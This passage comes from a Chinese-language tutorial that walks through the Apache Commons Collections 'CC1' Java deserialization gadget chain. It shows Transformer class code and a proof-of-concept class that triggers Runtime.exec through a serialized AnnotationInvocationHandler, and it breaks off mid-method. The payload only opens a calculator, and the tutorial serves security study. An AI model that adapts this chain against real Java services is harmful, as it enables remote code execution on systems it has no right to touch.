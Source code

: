 ```java
public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

public Object transform(Object object) {
  for(int i = 0; i < this.iTransformers.length; ++i) {
    object = this.iTransformers[i].transform(object);
  }

  return object;
}
```

有了这两个类我们要怎么构建Payload呢，首先我们要明确一点`entry.setValue(r)`实际上是在执行一个Transformer的transform方法并将r作为参数，只不过在AnnotationInvocationHandler类中我们没办法随意的传入r而已。但是没关系，我们可以将r作为ConstantTransformer的构造方法参数传入，而ConstantTransformer的transform方法无论传参内容是什么都返回构造方法的输入，也就是得到r，然后再利用ChainedTransformer的特点，将上一次的返回结果作为参数输入给下一个元素即InvokerTransformer对象的transform方法中即可。具体看代码：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
new ChainedTransformer(new Transformer[]{new ConstantTransformer(r),invokerTransformer}).transform("111111111111");
```

最后的transform方法传参是不影响结果的。

我们可以构造出理论POC:

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        Runtime r = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(r), invokerTransformer});
        HashMap<String, InvokerTransformer> transformerHashMap = new HashMap<>();
        transformerHashMap.put("value",null);
        Map<Object, Object> transformedmap = TransformedMap.decorate(transformerHashMap, null, chainedTransformer);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object anno = constructor.newInstance(Retention.class,transformedmap);
        serialize(anno);
        unserialize();
```